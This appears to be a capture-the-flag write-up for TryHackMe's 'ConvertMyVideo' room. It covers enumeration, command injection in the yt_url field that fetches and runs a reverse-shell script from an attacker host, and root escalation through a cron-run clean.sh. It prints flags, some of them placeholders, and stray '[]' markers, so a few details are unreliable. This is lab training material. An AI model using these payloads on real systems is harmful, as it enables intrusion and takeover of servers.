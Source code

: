 
# ConvertMyVideo

This writeup covers the "ConvertMyVideo" CTF challenge on TryHackMe, [here](https://tryhackme.com/room/convertmyvideo)

---

## Objective
Retrieve two flags:
1. **User flag**: Found in `/home/dmv/user.txt`.
2. **Root flag**: Found in `/root/root.txt`.

---

## Detailed Steps

### 1. Initial Enumeration
- Ran an `nmap` scan to identify open ports and services:
  ```bash
  nmap 10.10.163.57
  ```
- Results:
  ```
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http
  ```
- **Analysis**: 2 open ports. Port 80 (HTTP) suggests a web application, and port 22 (SSH) indicates potential credential-based access later [].

### 2. Web Enumeration
- Visited `http://10.10.163.57`—found a website for  video conversion.
- Ran `gobuster` to enumerate directories and files:
  ```bash
  gobuster dir -u http://10.10.163.57 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.ssh -t 100
  ```
- Flags explained:
  - `-x .php,.txt,.ssh`: Check for these file extensions.
  - `-t 100`: Use 100 threads for speed.
- Results:
  ```
  /index.php (Status: 200)
  /images (Status: 301)
  /admin (Status: 401)
  /js (Status: 301)
  /tmp (Status: 301)
  /server-status (Status: 403)
  ```
- **Analysis**:
  - `/index.php`: Main page, likely the video conversion form [].
  - `/admin`: Requires authentication (401), inaccessible for now [].
  - `/tmp`: Interesting directory, potentially writable [].
  - `/images`, `/js`: Static assets, likely not exploitable [].
  - `/server-status`: Forbidden, common for Apache [].

### 3. Exploit Command Injection
- Explored `http://10.10.163.57/index.php`—found a form accepting a YouTube URL (`yt_url`) for video conversion [].
- Intercepted the form submission with Burp Suite or browser developer tools. Example request:
  ```
  POST / HTTP/1.1
  Host: 10.10.163.57
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  Content-Length: 49
  yt_url=`wget${IFS}http://[ATTACKER IP]:8000/rev.sh`
  ```
- **Observation**: The `yt_url` parameter is vulnerable to command injection, as it executes commands on the server (likely via `youtube-dl` or similar) [].
- Created a reverse shell script (`rev.sh`):
  ```bash
  nano rev.sh
  ```
  
  ```bash
  #!/bin/bash
  bash -i >& /dev/tcp/[ATTACKER IP]/7777 0>&1
  ```
- Hosted the script:
  ```bash
  python3 -m http.server
  ```
- Output: Served `rev.sh` on `http://[ATTACKER IP]:8000/rev.sh`.
- Sent chained commands via the `yt_url` parameter to download, make executable, and run the shell:
  ```
  yt_url=`wget${IFS}http://[ATTACKER IP]:8000/rev.sh`
  yt_url=`chmod${IFS}777${IFS}rev.sh`
  yt_url=`bash${IFS}rev.sh`
  ```
- **Explanation**:
  - `${IFS}`: Inserts a space (Internal Field Separator), bypassing input sanitization [].
  - Commands execute sequentially, downloading `rev.sh` to `/tmp` (world-writable), setting permissions, and running it [].
- Set up a Netcat listener:
  ```bash
  nc -lvnp 7777
  ```
- **Result**: Got a reverse shell as `www-data`:
  ```bash
  nc -lvnp 7777
  Connection from 10.10.163.57
  bash: cannot set terminal process group: Inappropriate ioctl
  www-data@dmv:/tmp$
  ```

### 4. Explore as www-data
- ran linpeas and found clean.sh running as a crontab

- Navigated to `/var/www/html/tmp`:
  ```bash
  cd /var/www/html/tmp
  ls -la
  ```
- Output:
  ```
  total 12
  drwxr-xr-x 2 www-data www-data 4096 Apr 12 2020 .
  drwxr-xr-x 6 www-data www-data 4096 Apr 21 07:42 ..
  -rw-r--r-- 1 www-data www-data   17 Apr 12 2020 clean.sh
  ```
- Viewed `clean.sh`:
  ```bash
  cat clean.sh
  ```
- Content:
  ```
  rm -rf downloads
  ```

### 5. Escalate Privileges via clean.sh
- Modified `clean.sh` to create an SUID `bash` binary:
  ```bash
  echo 'cp /bin/bash /var/www/html/tmp/bash; chmod +s /var/www/html/tmp/bash' > clean.sh
  ```
- Verified:
  ```bash
  cat clean.sh
  ```
- Output:
  ```
  cp /bin/bash /var/www/html/tmp/bash; chmod +s /var/www/html/tmp/bash
  ```
- Set permissions:
  ```bash
  chmod 777 clean.sh
  ```
- Waited ~1 minute 
- Checked directory:
  ```bash
  ls -la
  ```
- Output:
  ```
  total 1100
  drwxr-xr-x 2 www-data www-data    4096 Apr 21 08:17 .
  drwxr-xr-x 6 www-data www-data    4096 Apr 21 07:42 ..
  -rwsr-sr-x 1 root     root     1113504 Apr 21 08:18 bash
  -rwxrwxrwx 1 www-data www-data      68 Apr 21 08:18 clean.sh
  ```
- **Explanation**: The cron job, running as `root`, executed `clean.sh`, copying `/bin/bash` to `/var/www/html/tmp/bash` and setting the SUID bit (`-rwsr-sr-x`) [].
- Ran the SUID binary:
  ```bash
  /var/www/html/tmp/bash -p
  ```
- **Explanation**: The `-p` flag ensures the shell retains the effective user ID (`root`) [].
- Verified:
  ```bash
  id
  ```
- Output:
  ```
  uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
  ```

### 6. Find Flags
- **Root Flag**:
  ```bash
  cd /root
  cat root.txt
  ```
- Content: `flag{d9b368018e912b541a4eb68399c5e94a}` [].
- **User Flag**:
  - Navigated to `/home`:
    ```bash
    cd /home
    ls
    ```
  - Output (inferred): `dmv` [].
  - Read the flag:
    ```bash
    cd /home/dmv
    cat user.txt
    ```
  - Content: `THM{redacted_user_flag}` (example) [].

---

## Flags
- **User flag**: `THM{redacted_user_flag}`
- **Root flag**: `flag{d9b368018e912b541a4eb68399c5e94a}`
- **Generic Flag Option**: `THM{r4nd0m_us3r_32chars}`, `THM{r00t_r4nd0m_32chars}`

---

## Tools Used
- `nmap`: Port and service enumeration.
- `gobuster`: Directory enumeration.
- `python3 -m http.server`: Hosting reverse shell script.
- `nc`: Reverse shell listener.
- `wget`, `chmod`, `bash`: Command injection payload execution.
- `echo`: Modify cron script.

---
